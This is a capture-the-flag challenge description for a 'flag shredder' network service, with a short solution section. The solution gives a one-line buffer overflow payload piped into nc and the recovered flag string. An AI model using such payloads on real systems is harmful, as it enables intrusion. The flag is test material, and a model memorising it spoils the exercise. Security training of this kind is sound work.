 # flag shredder

I made this new data shredding service!  I'll dispose of any bits you send me, straight into /dev/null. I'm so confident you can't exploit it that I'm disposing one of my old flags with every connection!

`nc ctfworkshop.cybr.club 3003`

(provide output of make dist, flag_shredder.zip)

## Solution
```
$ python3 -c 'import struct; import sys; sys.stdout.buffer.write(b"A"*100+struct.pack("<L", 1)+b"\n")' | nc 172.17.0.2 3003
Reading data for disposal:
gigem{53cur3_d3vnull_53rv1c3}
```
